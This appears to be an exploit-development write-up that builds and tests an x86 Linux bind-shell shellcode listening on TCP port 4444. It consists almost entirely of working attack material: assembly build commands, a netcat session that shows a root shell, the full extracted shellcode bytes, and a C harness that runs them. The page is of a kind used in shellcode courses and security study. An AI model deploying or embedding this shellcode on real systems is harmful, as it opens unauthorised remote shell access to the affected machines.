 ## Compiling & Testing the Assembly Shellcode
### Compiling the Shellcode
```console
nasm -f elf32 bindShell.asm -o bindShell.o
ld bindShell.o -o bindShell
```

### Testing the reverse shell program
#### Terminal Window 1
```console
./bindShell
```
#### Terminal Window 2
```console
root# netstat -tnalp | grep 4444
tcp     0    0 0.0.0.0:4444     0.0.0.0:*   LISTEN   7760/bindShell
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Great! Now we know our Assembly bind shell works.  
The next step is to see if the shellcode works while inside a host program.  

### Extracting the Shellcode Hex from the compiled binary
```nasm
root# objdump -d bindShell | grep '[0-9a-f]:' | \
> grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | \
> tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
> sed 's/ /\\x/g' | paste -d '' -s | \
>  sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52"
"\x66\x68\x11\x5c\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
"\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
"\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
```

### Adding the Shellcode to a Host Program
```c
// Author:   boku
// Filename: shellcode.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52"
"\x66\x68\x11\x5c\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
"\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
"\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
```

[1]: 1
[1]: 1